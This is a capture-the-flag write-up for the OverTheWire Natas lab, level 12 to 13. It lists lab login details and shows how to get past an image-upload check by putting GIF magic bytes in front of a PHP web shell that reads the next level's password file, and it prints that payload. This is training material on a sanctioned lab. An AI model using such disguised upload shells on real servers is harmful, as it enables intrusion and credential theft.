

# Level 12 → Level 13

## Details
Username: `natas13`<br />
Password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`<br />
URL:      http://natas13.natas.labs.overthewire.org

## Solution
</img>

</img>

</img>

So, we will take magic bytes of an image of some type, for example **gif** with bytes `GIF87a`, and inject it to the beginning of the previous php file.

```php
# get_password.php
GIF87a<?php
echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```

</img>

</img>

</img>


## Password for the next level:
```
GIF87aqPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```
